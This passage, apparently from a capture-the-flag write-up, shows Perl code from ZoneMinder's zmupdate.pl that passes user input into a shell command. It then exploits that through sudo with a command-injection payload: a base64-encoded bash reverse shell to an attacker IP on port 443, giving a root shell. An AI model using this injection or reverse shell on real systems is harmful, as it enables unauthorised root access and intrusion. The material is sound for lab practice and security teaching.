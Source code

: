 ```perl
    if ( $portOrSocket =~ /^\// ) {
      $command .= ' -S'.$portOrSocket;
    } else {
      $command .= ' -h'.$host.' -P'.$portOrSocket;
    }
  } elsif ( $host ) {
    $command .= ' -h'.$host;
  }
  $command .= ' '.$Config{ZM_DB_NAME}.' < ';
  if ( $updateDir ) {
    $command .= $updateDir;
  } else {
    $command .= $Config{ZM_PATH_DATA}.'/db';
  }
  $command .= '/zm_update-'.$version.'.sql';

  print("Executing '$command'\n") if logDebugging();
  ($command) = $command =~ /(.*)/; # detaint
  my $output = qx($command);
  my $status = $? >> 8;
  if ( $status || logDebugging() ) {
    chomp($output);
    print("Output: $output\n");
  }
  if ( $status ) {
    die("Command '$command' exited with status: $status\n");
  }
  print("\nDatabase successfully upgraded to version $version.\n");
} # end sub patchDB
```

Knowing that this script just appends whatever we throw at it in the userinput i decided to re-use the reverse shell payload i created earlier hier. First of all we need to break the first command using **;** then place our payload and end it off with another **;**. This results us with the following command. When executing this command just reply yes to everything and watch our reverse shell come in.

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user=" 'user';  echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMjQyLzQ0MyAwPCYxIDI+JjE= | base64 --decode | bash;" --pass=Newpassword
```

![Root Shell](/assets/img/Surveillance/Surveillance_12.png)








